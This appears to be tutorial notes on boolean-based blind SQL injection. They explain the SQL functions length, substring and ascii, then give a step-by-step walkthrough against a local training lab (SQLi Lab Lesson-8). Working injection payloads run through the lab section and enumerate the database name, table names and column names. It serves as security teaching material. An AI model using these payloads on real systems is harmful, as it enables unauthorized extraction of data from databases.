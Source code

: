 <h1 align="center">Blind SQL Injection</h1>

# Blind (Boolean-Based) SQL Injection

- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response


# SQl function you need to know


## `length()`

- Return the length of the string, in bytes

#### Syntax

`LENGTH(string)`

- eg. `SELECT LENGTH("SQL Tutorial");`
- eg. `SELECT LENGTH(databse());`



## `substring()`

- The `SUBSTRING()` function extracts a substring from a string (starting at any position).

#### Syntax

`SUBSTRING(string, start, length)`

- eg. `SUBSTRING("sqltest",2,3;)`
- eg. `SUBSTRING(database(),1,1)`




## `ascii()`

- The ASCII() function returns the ASCII value for the specific character

#### Syntax

`ASCII(character)`

## `CHAR()`

-  `CHAR()` returns the character value of the given integer value according to the ASCII table

#### Syntax

`CHAR(ASCII number)`

<br>

<h1 align="center">Practical Lab Training </h1>


`In this session, We used SQLi Lab Lesson-8`

## 1. Finding parameter to inject 

`http://localhost:8000/chapter1/sqli_lab/Less-8/?id=2`

- Background Query

	- `SELECT * FROM table_name WHERE id='2'`

## 2. Identify the vulnearbility

- 1. test with quote `'` or `"`
- 2. Fix Error with `-- -` or `--+`
- 3. Testing with condition

	- TRUE  Condition ==> `AND 1=1` or `AND '1'='1` 
	- FALSE Condition ==> `AND 1=2` or `AND '1'='2` 

## 3. Emnumerate Data

#### 1. Finding Length of Database

- Use `<` and `=` operater and find the length of Database name
- `AND (LENGTH(database())) < 10` 
- `AND (LENGTH(database())) = 8` 

#### 2. Finding Database name using `ascii()` and `substring()` Function


- `AND (ascii(substring(database(),1,1))) < 100`

#### 3. Finding Table name 

- Step by step payload creation

	- `AND (ascii(substring()))`

	- `(select table_name from information_schema.tables where table_schema= database() limit 0,1);
`

- Final payload (I already know user tables is fourth table and then use `limit 3,1`)

- `AND (ascii(substring((select table_name from information_schema.tables where table_schema= database() limit 3,1), 1,1 ))) < 100`

#### 4. Finding Column name


`AND (ascii(substring((select column_name from information_schema.columns where table_name = 'users' and table_schema= database() limit 1,1), 1,1 ))) < 100`







